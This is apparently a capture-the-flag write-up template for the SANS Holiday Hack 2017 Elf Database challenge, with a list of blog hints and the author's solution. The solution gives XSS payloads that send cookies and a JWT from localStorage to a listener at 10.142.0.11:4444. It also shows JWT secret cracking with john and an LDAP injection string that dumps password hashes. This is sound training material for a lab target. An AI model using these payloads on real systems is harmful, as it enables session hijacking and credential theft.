 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Fetch the letter to Santa from the North Pole Elf Database at
http://edb.northpolechristmastown.com. Who wrote the letter?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

Do we know anything about this system already?

Hints:

List any useful hints here.

Blog Posts:

Are any of these useful?

- Putting My Zero Cents In: Using the Free Tier on Amazon Web Services
  (EC2)
  https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2
  Spinning up an EC2 instance, but also a lot of emphasis on how to use
  SSH keys.
- Your Pokemon Guide for Essential SQL Pen Test Commands
  https://pen-testing.sans.org/blog/2017/12/09/your-pokemon-guide-for-essential-sql-pen-test-commands
  SQL basics (SELECT, WHERE, wildcards, ORDER BY, GROUP BY, COUNT)
- Exploiting XXE Vulnerabilities in IIS/.NET
  https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities
  Including remote content in XML
- Why You Need the Skills to Tinker with Publicly Released Exploit Code
  https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and
  CVE-2017-9805 Code: https://github.com/chrisjd20/cve-2017-9805.py
- Go To The Head Of The Class: LD\_PRELOAD For The Win
  https://pen-testing.sans.org/blog/2017/12/06/go-to-the-head-of-the-class-ld-preload-for-the-win
- A Spot of Tee
  https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted
  bash shell, and bypassing the I/O restriction with tee
- Understanding and Exploiting Web-based LDAP
  https://pen-testing.sans.org/blog/2017/11/27/understanding-and-exploiting-web-based-ldap
  LDAP syntax, LDAP injection
- Massively Scaling your Scanning
  https://pen-testing.sans.org/blog/2017/10/25/massively-scaling-your-scanning
  masscan

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

What are we trying to accomplish?

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

Describe the thought process that we tried here. How were we able to use
the hints or the blog posts?

** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

Summarize the reference solution that we found

My solution:

This was a multi stage exploit.

The first stage was XSS via the support request.

First I used

```
# nc -v -l -p 4444 on l2s
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+document.cookie\"></img>"
```

Then i realized the cookie didn't help, and one needed the token mentioned in the html/javascript source:

```
# nc -v -l -p 4444 on l2s
http -v --form --proxy=http:socks5://@localhost:32080  POST http://edb.northpolechristmastown.com/service \
uid=alabaster.snowball \
email=alabaster.snowball@northpolechristmastown.com \
message="<IMG SRC=/ onerror=\"document.location='http://10.142.0.11:4444/?cookie='+localStorage.getItem('np-auth');\"></img>"
```

At that point we had the token I stored in [output/jwt](output/jwt) and used jwt2john.py and john to crack it.  The makefile in output shows the process:

```
jwt.john: ../tools/jwt2john.py jwt
	python3 ../tools/jwt2john.py $(shell cat jwt) > jwt.john

john.txt: jwt.john
	john  --format=HMAC-SHA256 jwt.john
	john  --format=HMAC-SHA256 jwt.john -show > john.txt
```

Once logged in, [tools/edb.py](tools/edb.py) was used to exploit the ldap injection vuln using the search string

    name=))(department=it)(|(cn=

and by passing * as the attributes query field. With that query and all
attributes it is able to grab the entire ldap database including password
hashes.

The letter page requires a valid password, convienently a google search for santas md5 password quickly finds a valid password.

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

Any other, easier solutions?

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

Do we know what issue(s) people were running into?

Cracking the JWT key was tricky without the propper tools.
My first python based solution was broken.  A fixed version was too slow.
running it using pypy helped a bit, but the pyjwt library is not optimized for cracking.
https://github.com/lmammino/jwt-cracker was a bit faster, but john outperformed
everything.  The hard part was finding out how to use john to crack a jwt secret key.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

How was the challenge setup? Was there a better way to secure this
system?
